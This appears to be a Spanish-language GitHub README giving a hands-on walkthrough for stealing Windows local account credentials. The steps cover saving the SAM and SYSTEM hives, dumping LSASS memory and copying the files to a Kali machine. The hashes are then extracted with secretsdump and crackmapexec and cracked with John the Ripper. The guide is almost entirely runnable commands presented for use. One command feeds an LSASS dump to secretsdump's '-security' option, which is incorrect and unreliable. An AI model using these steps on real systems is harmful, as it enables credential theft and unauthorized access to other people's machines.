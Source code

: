 # Volcado de información de LSASS y SAM

Este proyecto explica cómo volcar y extraer hashes de las cuentas locales de Windows utilizando los archivos SAM, SYSTEM y el proceso LSASS. También se incluyen métodos para descifrar los hashes con John the Ripper.

---
![imagen](https://github.com/90l3m0np13/LSASS-Y-SAM/blob/main/Imagen.jpeg)
## **Requisitos**
- Máquina Windows (para el volcado de SAM, SYSTEM y LSASS).
- Máquina Kali Linux (para la extracción y descifrado de hashes).
- Herramientas:
  - Impacket-SecretsDump
  - CrackMapExec
  - John the Ripper
  - SCP o cualquier método de transferencia de archivos.

---

## **1. Volcado del archivo SAM y SYSTEM**

### **Paso 1: Guardar las claves del registro**
En la máquina Windows, ejecuta los siguientes comandos para guardar las claves del registro SAM y SYSTEM:
```cmd
reg save hklm\sam sam.save
reg save hklm\system system.save
```

### **Paso 2: Transferir los archivos a Kali Linux**
Usa `scp` o cualquier otro método para transferir los archivos a Kali Linux:
```bash
scp usuario@windows_ip:/ruta/a/sam.save /ruta/destino/kali/
scp usuario@windows_ip:/ruta/a/system.save /ruta/destino/kali/
```

---

## **2. Volcado de LSASS**

### **Paso 1: Generar un volcado de memoria**
1. Abre el Administrador de Tareas (`Ctrl + Shift + Esc`).
2. Busca el proceso `lsass.exe` en la pestaña **Detalles**.
3. Haz clic derecho en `lsass.exe` y selecciona **Crear volcado de memoria**.
4. Esto generará un archivo `lsass.DMP`.

### **Paso 2: Transferir el archivo a Kali Linux**
```bash
scp usuario@windows_ip:/ruta/a/lsass.DMP /ruta/destino/kali/
```

---

## **3. Extracción de hashes con Impacket-SecretsDump**

### **Extraer hashes del SAM y SYSTEM**
```bash
secretsdump.py -sam sam.save -system system.save LOCAL
```

### **Extraer hashes del volcado de LSASS**
```bash
secretsdump.py -security lsass.DMP LOCAL
```

---

## **4. Extracción de hashes con CrackMapExec**

### **Obtener hashes NTLM de un equipo remoto**
```bash
crackmapexec smb 192.168.1.10 -u Administrador -p Password123 --sam
```

---

## **5. Descifrar hashes con John the Ripper**

### **Paso 1: Preparar el archivo de hashes**
Guarda los hashes en un archivo `hashes.txt`.

### **Paso 2: Descifrar los hashes**
```bash
john --format=NT hashes.txt
john --show hashes.txt
```

---

## **Contribuciones**
Si deseas contribuir a este proyecto, ¡siéntete libre de hacer un fork y enviar un pull request!


